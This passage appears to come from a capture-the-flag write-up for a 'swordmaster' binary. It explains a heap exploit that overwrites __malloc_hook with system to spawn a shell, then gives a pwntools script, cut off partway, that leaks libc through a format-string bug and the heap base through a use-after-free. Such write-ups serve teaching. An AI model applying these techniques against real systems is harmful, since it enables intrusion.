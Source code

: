 ![[heap_mid_exploit.png]]

Adding all the allocated sizes together, we get `0x250 + 0x1010 + 0x30 + 0x30 + 0x30 + 0x30 = 0x1320`. We also need to add an addtional `0x10` since we are using the heap base, which is `0x10` greater than the first address on the heap. Therefore we have the following code:

```python
distance = libc.sym.__malloc_hook - (heap + 0x1330) - 0x10  
malloc(distance, 'dummy')
```

Note that we subtract `0x10` so that we get a pointer just before `__malloc_hook`. Therefore, on the next call to malloc, the allocator will return a pointer to `__malloc_hook`.

### Step 5: 
Almost there, we need to call malloc another time. The data we include in this call will overwrite the `__malloc_hook`. Therefore, we use the following code:
```python
malloc(24, p64(libc.sym.system))
```

### Step 6:
Last step, we need to get a pointer to our name, `/bin/sh\0`. This is always located `0x1270` from the heap base. Now, instead of providing a size when crafting a sword, we will provide this pointer. Now instead of `__malloc_hook` running before the malloc takes place, `system("/bin/sh\0")` will run resulting in a shell

### Full Exploit Code:
```python
from pwn import *  
import sys  
if not sys.warnoptions:  
    import warnings  
    warnings.simplefilter("ignore")  
  
elf = ELF("./swordmaster")  
libc = ELF("./glibc/libc.so.6")  
p = elf.process(['./glibc/ld-linux-x86-64.so.2','./swordmaster'],env={"LD\_PRELOAD":"./glibc/libc.so.6"})  
  
# ---- SET NAME ----  
p.sendline('/bin/sh\0')  
  
# ---- LEAK LIBC BASE WITH FORMAT STRING BUG ----  
p.recvuntil(b'>> ')  
p.sendline(b'%13$p')  
p.recvuntil('There is no ')  
  
libc_leak = p.recvline().split(b' ')[0]  
libc_leak = int(libc_leak[2:], 16)  
libc.address = libc_leak - 0x21c87  
  
[log.info](http://log.info/)("LEAKED LIBC BASE: " + hex(libc.address))  
  
  
# ---- LEAK HEAP BASE WITH UAF BUG -------  
p.recvuntil(b'>> ')  
p.sendline(b'5')  
p.recvuntil(b'>> ')  
p.sendline(b'3')  
p.recvuntil(b'Class: ')  
  
heap = p.recvline()[:-1]  
heap = int.from_bytes(heap, 'little') - 4800 - 0x10  
  
```